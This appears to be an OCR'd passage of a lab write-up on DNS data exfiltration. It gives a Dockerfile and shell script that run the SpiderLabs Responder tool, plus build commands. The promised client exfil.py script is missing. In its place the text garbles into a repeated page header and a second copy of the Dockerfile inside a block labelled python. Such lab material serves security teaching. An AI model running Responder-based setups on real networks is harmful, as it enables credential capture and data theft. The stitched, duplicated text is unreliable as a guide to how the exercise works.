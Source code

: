 #### Server side

```yaml
FROM python:2-alpine

RUN apk add git

RUN mkdir /responder && git clone https://github.com/SpiderLabs/Responder.git /responder

COPY run.sh /run.sh
RUN chmod +x /run.sh

ENTRYPOINT ["/run.sh"]
```

And the __run.sh__ script:

```bash
#!/bin/sh

INTERFACE=$(ip a | grep BROADCAST | awk '{print $2}' | sed 's/@.*$//')
cd /responder && ./Responder.py -I $INTERFACE -wrf
```

Time to build and start our docker:

```bash
$ sudo docker build . -t responder && sudo docker run --rm --name responder -t responder
```

You should got something like that:

<center>
![](https://i.imgur.com/jUdHqiZ.png)
_37_: Responder up
</center>

#### Client side

For the client, basically your host, you can use the following python script (exfil.py) to generate the malicious traffic:

```python

TP3 - Data exfiltration

    Preview
    Edit
    Reports
    Grade essays

Do it yourself

As for the clear TCP, I made a small docker. This time I based the container on the image of Python2 - Alpine, because to simulate a DNS server that accepts all requests, I will use the SpiderLab script: Responder.
1. Server side


FROM python:2-alpine

MAINTAINER Alan MARREC <amarrec@protonmail.com>

RUN apk add git

RUN mkdir /responder && git clone https://github.com/SpiderLabs/Responder.git /responder

COPY run.sh /run.sh
```